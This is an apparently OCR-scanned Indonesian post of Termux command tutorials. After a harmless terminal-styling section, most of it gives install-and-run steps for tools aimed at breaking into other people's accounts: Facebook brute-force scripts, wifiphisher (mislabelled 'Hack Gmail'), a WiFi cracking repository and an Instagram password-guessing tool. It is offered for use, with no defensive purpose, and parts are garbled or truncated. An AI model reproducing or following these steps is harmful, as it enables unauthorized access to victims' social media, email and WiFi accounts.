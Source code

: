 [9/10 17.25] ‌*~I⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟: Memper Cantik/Melihat V.Android Termux
$ pkg update && pkg upgrade
$ pkg install ruby cowsay toilet figlet
$ pkg install neofetch
$ pkg install nano
$ gem install lolcat
$ cd ../usr/etc
$ nano bash.bashrc
cowsay -f eyes Cyber | lolcat
toilet -f standard Indonesia -F gay
neofetch
date | lolcat
✓
Hack FB rombongan
$ apt update && apt upgrade
$ pkg install python2 git
$ pip2 install mechanize
$ git clone http://github.com/pirmansx/mbf
$ ls
$ cd mbf
$ python2 MBF.py
✓
Hack FB ngincer
$ Apt update ( Enter )
$ Apt upgrade ( Enter )
$ Apt install python2 ( Enter )
$ pip2 install urllib3 chardet certifi idna requests ( Enter )
$ apt install openssl curl ( Enter )
$ pkg install libcurl ( Enter )
$ ln /sdcard ( Enter ) 
$ cd /sdcard ( Enter )
$ python2 fbbrute.py ( Enter )
✓
Hack Gmail
apt-get update && apt-get upgrade
$ apt-get install git
$ apt-get install python python-pip python-setuptools
$ pip install scapy
$ git clone https://github.com/wifiphisher/wifiphisher.git
$ cd wifiphisher<
$ python setup.py install
$ cd wifiphisher
$ python wifiphisher
 Nih yang mau hack WiFi Khusus root
$apt update
$apt upgrade
$apt install git
$git clone https://github.com/esc0rtd3w/wifi-hacker
$ls
$cd
‌Ni KUMPULAN TUTOR TERMUX [X SCREW UP X]
*HACK INSTAGRAM*
( sosial engineering)
$ apt update && apt upgrade
$ pkg install python
$ pkg install git 
$ pkg install nano
$ git clone https://github.com/avramit/instahack.git
$ ls
$ cd instahack
$ ls
$ pip install requests
$ cd instahack
$ nano pass.txt